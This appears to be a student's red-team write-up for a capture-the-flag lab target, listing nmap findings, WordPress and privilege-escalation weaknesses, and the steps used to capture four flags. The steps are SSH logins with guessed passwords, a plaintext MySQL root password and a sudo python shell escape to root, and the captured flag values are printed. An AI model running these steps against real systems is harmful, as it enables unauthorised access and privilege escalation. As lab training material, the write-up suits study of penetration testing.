

# Final-Project

# Red Team: Summary of Operations
# Table of Contents
 - Exposed Services
 - Critical Vulnerabilities
 - Exploitation
# Exposed Services
- Fill out the information below:
  - Nmap scan results for each machine reveal the below services and OS details: nmap -sV 192.168.1.110  command to Scan Target 1
  
 
 
- This scan identifies the services below as potential points of entry:
### Target 1:
  - SSH
  - HTTP
  - rpcbind
  - netbios-ssn
  
  

- The following vulnerabilities were identified on each target:
### Target 1:

| Vulnerability        | Description                                                                                                                                                      | Impact                              | CVE or Standard |
|----------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------|-----------------|
| Port Scanning        | Use Nmap to detect open ports                                                                                                                                    | Show vulnerable ports and services. | Standard        |
| Enumerate WordPress  | Exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote  attackers to enumerate valid usernames. | Enumerate User Accounts             | CVE-2009-2335   |
| Weak Password        | Using easily guess passwords                                                                                                                                     | Gain access to the machine          | Standard        |
| Privilege Escalation | when running with Python 3.6 or later,  allows remote authenticated users to execute  arbitrary code, leading to privilege escalation.                           | Gain root access to the machine     | CVE-2020-29396  |

# Exploitation

- Fill out the details below. Include screenshots where possible:
- The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
### Target 1:

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/
  - grep -RE flag

                                      flag1: {b9bbcb33e11b80be759c4e844862482d}
 
 
 

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - cd /var/www/html/wordpress
  - mysql -u root -p
  - R@v3enSecurity
  - SELECT * FROM wp_post
 
                                      flag2: {fc3fd58dcdad9ab23faca6e9a36e581c}

- Exploit Used:
  - weak password
  - ssh michael@192.168.1.110
  - mysql -u root -p
  - R@v3enSecurity
  - use wordpress;
  - SELECT * FROM wp_posts;

                                          

                                      flag3: {afc01ab56b50591e7dccf93122770cd2} 

 
 
 - Exploit Use:
   - Privilege escalation
   - ssh steven@192.168.1.110
   - sudo python -c ‘import os;os.system(“/bin/sh”)’ 
   - cd ../..
   - cat flag4                  
 

                                       flag4: {715dea6c055b9fe3337544932f2941ce}
 
 

                                      
                   
